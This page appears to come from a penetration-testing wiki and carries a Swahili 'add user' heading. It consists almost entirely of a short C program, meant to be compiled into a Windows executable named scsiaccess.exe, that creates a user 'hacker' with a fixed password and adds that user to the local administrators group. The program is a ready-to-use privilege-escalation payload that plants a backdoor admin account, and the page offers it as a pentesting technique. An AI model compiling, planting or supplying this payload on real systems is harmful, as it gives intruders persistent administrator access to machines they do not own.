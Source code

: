 # Ongeza mtumiaji
```c
// i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
int i;
system("net user hacker Hacker123! /add");
system("net localgroup administrators hacker /add");
return 0;
}
```
{{#include ../../banners/hacktricks-training.md}}
